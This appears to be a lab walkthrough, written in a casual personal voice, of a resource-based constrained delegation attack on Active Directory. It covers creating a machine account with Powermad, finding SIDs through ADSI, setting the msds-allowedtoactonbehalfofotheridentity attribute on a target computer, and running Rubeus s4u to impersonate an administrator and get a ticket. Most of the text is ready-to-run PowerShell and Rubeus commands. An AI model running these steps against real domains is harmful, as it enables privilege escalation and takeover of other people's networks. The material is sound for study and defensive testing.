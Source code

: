 Cause why do things the easy way.

---
This attack allows a user account with genericall over a machine account, to get the ticket of the machine account (or domain admin in this case).
# What does bloodhound say?
Bloodhound has a step by step process to get access to the machine.
```powershell
New-MachineAccount -MachineAccount attackersystem -Password $(ConvertTo-SecureString 'Summer2018!' -AsPlainText -Force)

$ComputerSid = Get-DomainComputer attackersystem -Properties objectsid | Select -Expand objectsid

$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)

Get-DomainComputer $TargetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}

Rubeus.exe hash /password:Summer2018!
Rubeus.exe s4u /user:attackersystem$ /rc4:EF266C6B963C0BB683941032008AD47F /impersonateuser:admin /msdsspn:cifs/TARGETCOMPUTER.testlab.local /ptt
```
Only issue is that `Get-DomainComputer` and `Set-DomainObject` are from powerview.

# The other way
## Create the machine account
This can be done by using powermad.ps1
Load powershell with `-executionpolicy bypass` and then load the script. 
```powershell
. .\powermad.ps1
```

With this loaded we can nwo use the `New-MahcineAccount` module.
```powershell
New-MachineAccount -MachineAccount Midgard -Password $(ConvertTo-SecureString 'earthwithacoolername' -AsPlainText -Force)
```
## Get the sid?
I spent way to long trying to find out how to find the sid without using powerview and eventually stumbled across ADSI adapter in powershell. This lets us query the directory for objects.
```powershell
$s = New-Object DirectoryServices.DirectorySearcher
$s.Filter = '(&(objectCategory=computer))'
$s.findall()
```
This gives back the ldap path of the computer which can then be used to get the sidname.
```powershell
$obj = [adsi]"LDAP://CN=Midgard,CN=Computers,DC=ninerealms,DC=local"
$obj.objectsid
```
And its not the normal sid format :( at the time I thought it had to be in the regular format so I converted it.
## Converting the sid for no logical reason.
It was a long day. **OK**
```powershell
$stringSID = (New-Object System.Security.Principal.SecurityIdentifier($obj.objectsid.value,0)).Value
```

## Add the attribute to the machine
From before we already have the binary version of the sid `$obj.objectsid.value`.

Issue is we need to get the target computer, this can be done the exact same way that the machine account was found.
```powershell
$s.findall()
$vicmac = [adsi]"LDAP://CN=MUSPELHEIM,CN=Computers,DC=ninerealms,DC=local"
```

Added the attribute with put.
```powershell
$vicmac.put("msds-allowedtoactonbehalfofotheridentity",$obj.objectsid.value)
```

## Run Rubeus
```powershell
Rubeus.exe hash /password:earthwithacoolername
Rubeus.exe s4u /user:Midgard$ /rc4:5ESE873D7D2510EB2DE975B7F30DD /impersonateuser:odin /msdsspn:cifs/MUSPELHEIM.ninerealms.local /ptt
```
Now you have the ticket. :)